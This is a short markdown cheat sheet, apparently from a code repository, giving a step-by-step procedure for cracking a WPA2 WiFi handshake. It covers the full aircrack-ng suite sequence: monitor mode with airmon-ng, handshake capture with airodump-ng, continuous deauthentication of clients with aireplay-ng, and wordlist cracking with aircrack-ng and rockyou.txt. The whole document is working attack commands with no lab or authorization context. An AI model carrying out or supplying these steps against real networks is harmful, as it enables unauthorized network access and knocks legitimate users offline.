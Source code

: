 # Cracking WiFi WPA2 Hanshake
___
Index | Topic
--- | ---
**1** | Tools
**2** | Procedure

## Tools

- WiFi adapter that supports monitor mode
- airmon-ng

## Procedure

1. Connect the WiFi adapter
2. Check for conflicting processes with airmon: `sudo airmon-ng check kill`
3. Change de wifi adapter into monitor mode: `sudo airmon-ng start wlan0`
4. Find networks around you: `sudo airodump-ng wlan0mon`
5. Scan to capture a 4-way handshake: `sudo airodump-ng -w hack1 -c 2 --bssid xx:xx:xx:xx:xx:xx wlan0mon`
6. Deauthenticate clients from a network: `sudo aireplay-ng --deauth 0 -a xx:xx:xx:xx:xx:xx wlan0mon`
   - `--deauth 0` means we are not going to stop the deauthentications used against the access point
7. The moment someone connects to the network, we are going to capture the 4-way handshake
8. Use aircrack to try and crack the file `aircrack-ng hack1-01.cap -w /usr/share/wordlists/rockyou.txt`
9. If the password is in the wordlist, you should be ready to go!